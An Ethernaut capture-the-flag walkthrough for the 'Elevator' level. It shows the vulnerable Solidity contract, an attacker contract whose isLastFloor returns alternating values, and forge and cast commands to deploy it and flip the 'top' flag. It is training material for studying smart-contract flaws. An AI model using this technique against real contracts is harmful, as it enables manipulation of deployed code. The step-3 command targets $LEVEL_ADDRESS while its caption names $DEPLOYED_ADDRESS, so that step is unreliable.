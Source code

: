 ## Elevator Level Outline

**Difficulty : 4/10**

This elevator won't let you reach the top of your building. Right?

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

## Solution

We can create a 'switch' variable that can be flipped after every function call effectively returning a different value on every call.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Building {
    Elevator elevator;
    bool isTopFloor = false;

    constructor(address _elevator) {
       elevator = Elevator(_elevator); 
    }

    function attack() public {
        elevator.goTo(42);
    }
     
    function isLastFloor(uint _floor) external returns (bool) {
        bool tempSwtich = isTopFloor; 
        isTopFloor = !isTopFloor;
        return tempSwtich;
    }
}

interface Elevator {
    function goTo(uint _foor) external;
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:Building --constructor-args $LEVEL_ADDRESS --private-key $PRIVATE_KEY 
```

##### 3. Call our newly deployed contract 
```console
cast send $LEVEL_ADDRESS "attack()" --gas 300000 --private-key $PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Quick confirmation that boolean top has been changed
```console
cast call $LEVEL_ADDRESS "top()"
```
output 
```
0x0000000000000000000000000000000000000000000000000000000000000001
```
> variable top has changed form false to true

## Extra Resources
`public` and `private` are **visibility modifiers**

`pure` and `view` are **state modifiers**

- `pure`: promises functions that will neither read from nor modify the state. Note: Pure replaces constant in more recent compilers.
- `view`: promises functions that will only read, but not modify the state
- `default`: [no modifier] promises functions that will read and modify the the state

You can use the **view function modifier** on an interface in order to prevent state modifications. The **pure function modifier** also prevents functions from modifying the state. 

Read more about state modifiers [here](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions)

### [:arrow_left: Back To Main Menu](../)

